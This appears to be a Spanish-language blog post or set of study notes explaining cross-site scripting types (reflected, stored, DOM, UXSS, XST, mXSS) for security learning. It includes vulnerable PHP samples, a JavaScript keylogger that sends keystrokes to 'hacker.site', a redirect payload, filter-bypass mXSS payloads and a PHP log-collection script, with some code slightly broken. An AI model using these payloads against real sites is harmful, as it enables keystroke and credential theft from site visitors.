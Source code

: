 ```yaml
---
title: 'Cross-Site Scripting (XSS)'
description: ''
pubDate: 'Jul 08 2022'
heroImage: '/placeholder-hero.jpg'
---
```


### Reflected XSS (server)

Ocurre cuando la data del usuario es enviada a la aplicación web y es inmediatamente repetida de vuelta al contenido no confiable

La victima trae la carga en su request a la página vulnerable,
esta carga se inserta en la webapp y el navegador lo executa.

```php
<?php $name = @$_GET['name']; ?>

Welcome <?=$name?>
```

### Stored or Persistent XSS (server)
La carga se ejecuta en todos los usuarios que visiten la página.
El código es guardado por la app, sin sanitizar y luego rendereado.

El código malicioso puede ser injectado, por los atacantes, directamente por la webapp.

```php

<?php
$file = 'newcomers.log';
if(@$_GET['name']) {
  $current = file_get_contents($file);
  $current .= $_GET['name']."\n";
  // almacena 'newcomer'
  file_put_contents($file, $current);
}
// si admin muestra 'newcomers'
if(@$_GET['admin'] == 1) {
  echo file_get_contents($file);
}
>

```

### DOM XSS | Type-0 | Local XSS (client)

Es dado cuando JavaScript usa los datos del usuario como parte de su lógica igual que *reflected* pero sin interactuar con el lado del servidor.

```php
# Toda la información del DOM esta disponible, URL, history, cookies, etc. 

# Hay dos llaves fundamentales: SOURCES y SINKS
<h1 id='welcome'></h1>
<script>
  var w = "Welcome";
  // location.hash -> SOURCE del input desconfiable
  var name = document.location.hash.substr(
    document.location.hash.search(/#w!/i) + 3,
    document.location.hash.length
  );
  // innerHTML -> SINK donde el input es usado
  document.getElementById('welcome').innerHTML = w + name;
</script>

# Sumideros(sinks) son como puntos en la corriente de agua donde dependiendode la fuente(input del usuario) puede ser peligroso resultando en la perdida de Confidencialidad, Integridad y Disponibilidad.
```

### Universal XSS | UXSS

No aprovecha las fallas de la "App" sino de las extensiones, plugins.

### Cross-Site Tracking (XST)

<script>
  // TRACE Request
  var xmlhttp = new XMLHttpRequest()
  var url = 'http://victim.site'
  xmlhttp.withCredentials = true
  xmlhttp.open('TRACE', url)

  // Callback para registrar todas las cabezeras de la respuesta
  function hand() {
    console.log(this.getAllResponseHeaders())
  }
  xmlhttp.onreadystatechange = hand
  xmlhttp.send()
  // Si todo va bien podemos leer las cabezeras de vuelta del request'TRACE', esta tecnica es antigua y los navegadores lo bloquean
</script>

### XSS Ataques

- Recoleccion de cookies
- Desfiguraciones
- Phishing
- Keylogging
- Ataques de Red
- Auto-XXS


**Desfiguraciones**

Con este ataque se intenta dar un mensaje preciso o información engañosa a los usuarios.

*Virtul:* Si explotamos un defecto que no modifique el contenido hosteado en la web objetivo, entonces es un desfiguracion virtual. Esto pasa en XSS Reflejado

*Persistente:* En este caso la página es modificada permanentemente, el atacante no necesita engañar a los usuarios para que visiten una URL creada.

**Phishing**

URLCrazy es una herramienta de linea de comandos que genera y prueba tipos de dominios y variaciones para detectar y realizar allanamiento de tipos, URL hijacking, phishing, y espionaje.

**keylogging**

```javascript
var keys=''
document.onkeypress = function(e) {
  var get = window.event ? event : e
  var key = get.keyCode ? get.keyCode : get.charCode
  key = String.fromCharCode(key)
  keys += key
}

window.setInterval(() => {
  if (keys !== '') {
    var path = encodeURI("http://hacker.site/keylogger?k="+keys)
    new Image().src = path
    keys = ''
  }
}, 1000)

```
Algunos frameworks:

- *http_javascript_keylogger (Metasploit)*
- *Event logger:* Es mas sofisticado

****

data:text/html,<script>document.location="http://hacker.site"</script>

javascript:{this.window='<script>document.location="https://google.com"</script>'}


### mXSS

Es un vector que ocurre en el innerHTML y esta relacionado con las propiedades del DOM

```html
<!-- input -->
<p>Hi
<p/id=pID>Hi
<?Hi
<DiV/><doce///>Hi</plaintext><h1>high

<!-- Output -->
<p>Hi</p>
<p/id=pID>Hi</p>
<!-- Hi -->
<div><code>Hi<h1>high</h1></code></div>

<!--  -->
<!--  -->
<div><&lt;img src=1 onerror=alert(1)&gt;</div>

<!--  -->
<img srtle="font-fa\22onerror\3d\61lert\28\31\29\20mily:'arial'"src="x:x" />

<!--  -->
<p style="font-family:'ar&quot;;x=expression(alert(1))\*ial'"></p>

<!--  -->
<p style ="font-family:'ar\27\3bx\3aexpression\28\61lert\28\31\29\3bial'"></p>

<!--  -->
<article xmlns="urn:img src=x onerror=xss()//">


<!-- Pasando parametros a funciones con el parentesis bloqueado -->

<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
<!-- onerror=alert;throw 1; -->

<img src='x' onerror="window.onerror=eval;throw'\u003d&#x0061;&#x006C;ert&#x0028;1&#41;'">


```

### Guardando logs

```php
# php script

$fn="log.txt"
$fh=fopen($fn,'a')
$data=$_GET['q']
fwrite($fh,$data)
fclose($fh)
```